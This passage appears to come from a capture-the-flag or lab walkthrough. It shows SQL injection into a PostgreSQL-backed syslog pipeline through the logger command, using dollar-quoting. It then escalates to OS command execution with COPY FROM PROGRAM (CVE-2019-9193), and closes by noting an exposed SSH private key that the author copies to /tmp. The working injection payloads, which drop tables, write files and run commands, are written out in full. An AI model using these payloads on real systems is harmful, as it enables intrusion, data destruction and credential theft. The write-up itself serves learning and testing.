 
{% include image.html image_alt="0e7cdad4.png" image_src="/a2612680-aa5d-4086-b8ce-a46808e10511/0e7cdad4.png" %}


### PostgreSQL Dollar-Quoting

_"PostgreSQL has a feature called [dollar-quoting](https://www.postgresql.org/docs/current/static/plpgsql-development-tips.html#PLPGSQL-QUOTE-TIPS), which allows you to include a body of text without escaping the single quotes."_ Exactly what we need! To send syslog messages, we need `logger` as well.

### SQL Injection through Syslog


{% include image.html image_alt="8781dc2a.png" image_src="/a2612680-aa5d-4086-b8ce-a46808e10511/8781dc2a.png" %}


Looking at the template SQL statement, it's possible to inject SQL statements, through the `syslog` message field, `%msg%`.

```
INSERT INTO syslog_lines (message, devicereportedtime) values ('%msg%', '%timereported%')
```

Let's try this.

```
$ logger -s -p local7.info "', now()); DROP TABLE IF EXISTS moss; CREATE TABLE moss(t TEXT); INSERT INTO moss(t) VALUES (\$\$hello\$\$); COPY moss(t) TO \$here\$/tmp/moss\$here\$; -- -"
```


{% include image.html image_alt="6ad1dc12.png" image_src="/a2612680-aa5d-4086-b8ce-a46808e10511/6ad1dc12.png" %}


Awesome. It works!

### CVE-2019-9193 - It's NOT a Security Vulnerability

>  In PostgreSQL 9.3 through 11.2, the "COPY TO/FROM PROGRAM" function allows superusers and users in the 'pg_execute_server_program' group to execute arbitrary code in the context of the database's operating system user.

Armed with the previous insight, we can probably make use of [CVE-2019-9193](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9193) to execute commands. Let's see if this version is "vulnerable". :laughing:

```
$ logger -s -p local7.info "', now()); DROP TABLE IF EXISTS cmd; CREATE TABLE cmd(out TEXT); COPY cmd FROM PROGRAM \$cmd\$rm /tmp/moss\$cmd\$; --"
```


{% include image.html image_alt="8133b35a.png" image_src="/a2612680-aa5d-4086-b8ce-a46808e10511/8133b35a.png" %}


Bam. Long story short, this `postgres` account left the SSH private key in the home directory `/var/lib/postgresql`. Let's copy the key to `/tmp` for easy access.
